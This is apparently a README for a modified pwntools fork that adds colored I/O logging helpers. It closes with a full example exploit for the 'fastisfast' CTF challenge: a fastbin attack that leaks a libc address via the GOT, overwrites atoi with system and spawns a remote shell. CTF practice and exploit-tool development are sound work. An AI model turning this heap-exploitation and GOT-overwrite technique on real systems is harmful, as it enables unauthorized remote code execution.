

# Pwntools - CTF toolkit

Pwntools is a CTF framework and exploit development library. Written in Python, it is designed for rapid prototyping and development, and intended to make exploit writing as simple as possible.

# Forked and modified

Modified to optimize I/O display. Helps a lot on `reviewing the I/O sequence`.

Modified in `pwnlib\tubes\tube.py`.


`Recieved (useful/Junk) data` will be shown. `Sent data` would also be displayed. Debug info by the exploit writer would dispaly in different `colors`. 

Correctly use of this helps a lot to clear the mind. 

# Available new API

7 APIs available to interact with pwn challenges. These seven APIs seems to be enough for most situations of send data and leak data in CTF.

Fairly easy and simple. So this part will be Introduced as  source code:

```
    def ManualAttach(self):
        raw_input('\33[1;31;40m[+] Debug: Attach GDB.'),

    def Log(self, String):
        print '\33[1;31;40m[+] '+ String,

    def LogRecvUntil(self, String):
	Data = self.recvuntil(String)
	print '\33[0m\b' + Data,
	return Data

    def LogRecvNoBlocking(self):
        print '\33[0m\b'+ self.recv(),

    def LogRecv(self, Len):
        Data = self.recv(Len)
        print '\33[0m\b' + Data,
        return Data

    def LogSend(self,Data):
        print '\33[1;36;40m\b' + Data,
        self.send(Data)

    def LogSendAndRecv(self,Data):
        print '\33[1;36;40m\b' + Data,
        self.send(Data)
        print '\33[0m\b' + self.recv(),

    def LogHex(self,Data):
        i = 0
        display = ''
        for byte in Data:
            display = display + str(hex(packing.unpack(byte, 8)))+ ' '
            if((i + 1) % 4 == 0):
                display = display + '| '
            if((i + 1) % 16 == 0):
                self.Log(display)
                display = ''
            i = i + 1
        if((i % 16) != 0):
            self.Log(display)
```


# Example

Writeup for `fastisfast`. As a fastbin attack challenge.

```
from pwn import *

io = remote('202.112.51.217',34123)
#io = process('./fastIsfast')

io.LogRecvNoBlocking()

for i in range(0,46):
	io.LogSendAndRecv('1\n')

io.LogSendAndRecv('3\n')

io.LogSendAndRecv('2\n')
G_V = 0x602098
io.LogSendAndRecv(p64(G_V)+'\n')
io.LogSendAndRecv('1\n')
io.LogSendAndRecv(p64(0x30)+'\n')

#malloc 0x602098 as w/r
io.LogSendAndRecv('1\n')
io.LogSendAndRecv('1\n')
#read
io.LogSendAndRecv('4\n')
#index by 0x602098


def ReadPrimitive(Address):
	io.LogSendAndRecv('2\n')
	io.LogSendAndRecv(p64(Address)+'\n')
	io.LogSendAndRecv('65\n')
	io.LogSendAndRecv('AAAABBBB\n')	

	io.LogSend('4\n')
	io.LogRecvUntil('Name : ')
	data = io.LogRecv(6)

	value = u64(data+'\x00\x00')
	
	io.LogRecvNoBlocking()
	return value

ATOI_GOT = 0x602050
ATOI_LIBC = ReadPrimitive(ATOI_GOT)
io.Log('Leaked address of atoi@libc: '+hex(ATOI_LIBC)+'.')

#libc-2.19
#SYSTEM_LIBC = ATOI_LIBC -0x39EA0 + 0x46590
#Log('Leaked address of system@libc: '+hex(SYSTEM_LIBC)+'.')

#libc-2.23
SYSTEM_LIBC = ATOI_LIBC - 0x36E80 + 0x45390
	
io.LogSendAndRecv('2\n')
io.ManualAttach()
io.LogSendAndRecv(p64(SYSTEM_LIBC) +'\n')
io.LogSendAndRecv('65\n')
io.LogSendAndRecv('AAAABBBB\n')
io.LogSend('/bin/sh')


io.interactive()
```



